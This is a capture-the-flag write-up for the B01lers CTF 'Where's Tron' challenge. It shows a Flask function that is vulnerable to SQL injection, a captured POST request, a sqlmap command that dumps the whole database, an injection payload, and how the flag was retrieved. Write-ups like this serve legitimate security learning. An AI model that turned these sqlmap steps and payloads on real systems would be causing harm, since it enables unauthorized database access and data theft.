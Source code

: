 ```yaml
---
layout : default
title  : APTx1337 | B01lers_CTF - Where's Tron writeup
---
```


## B01lers_CTF(wheres_tron)

_**Oct 3-4, 2020**_

<br>


<h3 id="Challenge Description">Challenge Description</h3>

![Banner](../../../assets/images/b01lers_ctf/where_tron_banner.png "Banner")

> We've lost Tron on the grid, find him using this uplink!
> http://chal.ctf.b01lers.com:3004


<br>

<h3 id="Solution">Solution</h3>

Reaing The Flask app provided, we can see that the query() function is vulnerable to a direct sql injection.

```python
def query(query):
    db = MySQLdb.connect(host='localhost', user='selection_program', passwd='designation2-503', db='grid')
    cursor = db.cursor()
    try:
        cursor.execute(query + " LIMIT 20;")
        results = cursor.fetchall()
        cursor.close()
        db.close()
        return results
    except MySQLdb.ProgrammingError as e:
        print(e)
        return 1
    except MySQLdb.OperationalError as e:
        print(e)
        return 2
```


we extracted the query post request :
```
POST / HTTP/1.1
Host: chal.ctf.b01lers.com:3004
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Master Control Program 0000
Origin: http://chal.ctf.b01lers.com:3004
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://chal.ctf.b01lers.com:3004/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr-FR;q=0.8,fr;q=0.7
Connection: close

query=test
```

My Approach was to pass it into **sqlmap** and dump the whole database.

```
m3dsec@local:~/06_Wheres_Tron_$ sqlmap -r sql.txt --dbms=MySQL --level=3 --risk=3 --dbs --dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.8#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:22:10 /2020-10-05/

[11:22:10] [INFO] parsing HTTP request from 'sql.txt'
...
...
sqlmap identified the following injection point(s) with a total of 57 HTTP(s) requests:
---
Parameter: query (POST)
    Type: inline query
    Title: Generic inline queries
    Payload: query=(SELECT CONCAT(CONCAT('qzjjq',(CASE WHEN (5698=5698) THEN '1' ELSE '0' END)),'qqzjq'))
---
back-end DBMS: MySQL >= 5.0.0
available databases [2]:
[*] grid
[*] information_schema
...
...
```

Once dumping finished, we can grab our flag from the data we retrived:

```
m3dsec@local:~/06_Wheres_Tron_$ cat ~/.sqlmap/output/chal.ctf.b01lers.com/dump/grid/*|grep -i flag
1980,Tron-JA-307020,running,flag{I_fight_for_the_users_and_yori}
```

and, We got the flag !!

<br>
<br>

best regards, [m3dsec](https://github.com/m3dsec)

--------------

[back to B01lers_CTF()](../../ctf/b01lers.md)

[back to main()](../../../index.md)


